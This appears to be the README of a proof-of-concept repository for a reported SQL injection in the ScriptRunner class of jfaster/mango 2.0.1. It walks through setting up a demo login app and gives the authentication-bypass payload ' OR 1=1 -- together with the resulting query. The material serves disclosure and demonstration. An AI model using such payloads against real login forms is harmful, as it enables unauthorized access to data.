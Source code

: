 #  CVE Proof-of-Concept – SQL Injection in `ScriptRunner` (jfaster/mango)

This repository demonstrates a **SQL Injection vulnerability** in the `ScriptRunner` class of the [jfaster/mango](https://github.com/jfaster/mango) project. Using a Java Swing demo application (`LoginApp`), this PoC shows how an attacker can inject SQL, bypass authentication, and extract database content.

---

## Affected Product

- **Vendor**: jfaster  
- **Product**: mango  
- **Version**: 2.0.1  
- **Component**: `org.jfaster.mango.util.ScriptRunner`  
- **Type**: SQL Injection  
- **Impact**: Authentication Bypass, Information Disclosure, Arbitrary Query Execution  

---

##  Step-by-Step Exploit Guide

### Step 1 – Clone the Repository
```bash
git clone https://github.com/jfaster/mango.git
cd mango
```

###  Step 2 – Install and Setup Eclipse
- Download [Eclipse IDE for Java Developers](https://www.eclipse.org/downloads/)
  Install Eclipse and open it.
  
  Ensure Java SE 8 or higher is configured (Project properties → Java Build Path → Libraries → JRE System Library [JavaSE-1.8+])
  
  Include the H2 database library (version 2.1.214) junit-jupiter-api-5.9.2.jar and junit-jupiter-engine-5.9.2.jar:
  
  Click File → Import → Maven → Existing Maven Projects
  
  Select the cloned mango folder and click Finish
  

###  Step 3 – Add the Vulnerable Demo (`LoginApp`)
- In Eclipse project tree, open `mango/src/test/java/org/jfaster/mango/util`
- Right-click → `New → Class`
- Name it `LoginApp`
- Paste provided `LoginApp.java` code below and save

###  Step 4 – Run the Demo
- Right-click `LoginApp.java` → `Run As → Java Application`
- A Swing login window titled **Login Form (SQL Injection Test)** will appear

###  Test Inputs

####  Valid Login
- Username: `admin`
- Password: `admin123`

#### Invalid Login
- Username: `user1`
- Password: `wrong`

####  SQL Injection Bypass
- Username: `' OR 1=1 --`
- Password: `[anything]`

This generates:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```

The `--` disables password checking, successfully bypassing authentication.
**Need a PDF version or zipped project structure?**

- Contact for additional support.

